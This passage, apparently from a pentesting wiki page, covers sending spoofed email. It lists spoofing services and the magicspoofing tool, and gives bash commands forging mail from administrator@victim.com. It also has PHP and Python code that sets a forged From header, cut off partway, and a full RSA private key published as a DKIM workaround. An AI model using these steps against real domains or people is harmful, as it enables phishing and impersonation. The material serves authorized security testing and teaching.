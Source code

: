 ### Send Spoof Email

* [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
* [**http://www.anonymailer.net/**](http://www.anonymailer.net)
* [**https://emkei.cz/**](https://emkei.cz/)

**Or you could use a tool:**

* [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)

```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```

{% hint style="warning" %}
If you get any **error using in the dkim python lib** parsing the key feel free to use this following one.\
**NOTE**: This is just a dirty fix to do quick checks in cases where for some reason the openssl private key **cannot be parsed by dkim**.

```
-----BEGIN RSA PRIVATE KEY-----
MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
-----END RSA PRIVATE KEY-----
```
{% endhint %}

**Or you could do it manually:**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># This will send an unsigned message
</strong><strong>mail("your_email@gmail.com", "Test Subject!", "hey! This is a test", "From: administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
```